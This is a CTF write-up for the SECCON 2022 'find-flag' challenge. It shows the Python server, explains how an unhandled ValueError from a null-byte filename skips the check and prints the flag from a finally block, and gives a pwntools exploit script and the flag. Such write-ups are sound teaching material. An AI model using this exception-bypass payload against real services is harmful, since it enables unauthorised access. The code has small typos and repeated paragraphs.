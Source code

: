 ```yaml
---
layout: post
title: find-flag
parent: SECCON 2022
tags: [MISC]
grand_parent: CTF Write-ups
nav_order: 2
lang: en
lang-ref: SECCON 2022 - find - flag
hidden: true
---
```


# Find-Flag_en

```python
#server.py
#!/usr/bin/env python3.9
import os

FLAG = os.getenv("FLAG", "FAKECON{*** REDUCTED ***}").encode()
print(len(FLAG))
def check():
    try:
        filename = input("filename: ")
        if open(filename, "rb").read(len(FLAG)) == FLAG:
            return True
    except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
    except OSError:
        print("[-] hurting my eyes")
    except KeyboardInterrupt:
        print("[-] gone")
    return False

if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

```python
if __name__ == '__main__':
    try:
        check = check()
    except:
        print("[-] something went wrong")
        exit(1)
    finally:
        if check:
            print("[+] congrats!")
            print(FLAG.decode())
```

What is noteworthy about the above code is that the FLAG output is in the FINALLY.

In other words, In the check() function, we can make an exception and bypass the check process.

```python
except FileNotFoundError:
        print("[-] missing")
    except IsADirectoryError:
        print("[-] seems wrong")
    except PermissionError:
        print("[-] not mine")
		except OSError:
        print("[-] hurting my eyes")
```

An ERROR list exceptionally processed by the check() function.

It is possible to make a detour by making other exceptions that are not applicable.

I proceeded the detour using ValueError: embedded null byte.

```c
//local_setup.c
//gcc -o local_setup local_setup.c

#include <stdlib.h>

void main()
{
    system("/usr/bin/python3 server.py");
}
```

The above is a process in which the code is executed using the c code in order to turn it locally without running Docker.

```python
#exploit.py
#remote exploit

"""from pwn import *

payload = b'\x00'
r = remote('find-flag.seccon.games', 10042)
r.recvuntil(b"filename: ")
r.sendline(payload)
print(r.recv())"""

#local exploit

from pwn import *

p = process('./local_setup')
payload = b'\x00'

p.recvuntil(b'filename: ')
p.sendline(payload)
print(p.recv())F
```

![image](/assets/images/SECCON2022/Find-Flag/find-flag.png)

FLAG: SECCON{exit_1n_Pyth0n_d0es_n0t_c4ll_exit_sysc4ll}

An ERROR list exceptionally processed by the check() function.

It is possible to make a detour by making other exceptions that are not applicable.

I proceeded the detour using ValueError: embedded null byte.